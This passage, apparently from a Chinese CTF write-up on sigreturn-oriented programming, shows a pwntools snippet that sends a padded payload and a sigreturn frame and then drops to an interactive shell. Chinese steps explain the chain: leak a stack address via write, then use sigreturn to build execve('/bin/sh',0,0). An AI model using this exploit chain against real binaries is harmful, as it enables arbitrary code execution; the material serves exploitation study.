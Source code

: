 ```python
print len(frame_payload)
payload = frame_payload + (0x120 - len(frame_payload)) * '\x00' + '/bin/sh\x00'
sh.send(payload)
sh.send(sigreturn)
sh.interactive()
```

   其基本流程为

- 读取三个程序起始地址
- 程序返回时，利用第一个程序起始地址读取地址，修改返回地址 (即第二个程序起始地址) 为源程序的第二条指令，并且会设置 rax=1
- 那么此时将会执行 write(1,$esp,0x400)，泄露栈地址。
- 利用第三个程序起始地址进而读入 payload
- 再次读取构造 sigreturn 调用，进而将向栈地址所在位置读入数据，构造 execve('/bin/sh',0,0)
- 再次读取构造 sigreturn 调用，从而获取 shell。

![1.png](https://i.loli.net/2020/11/17/T5Kgjm8MydR1qJG.png)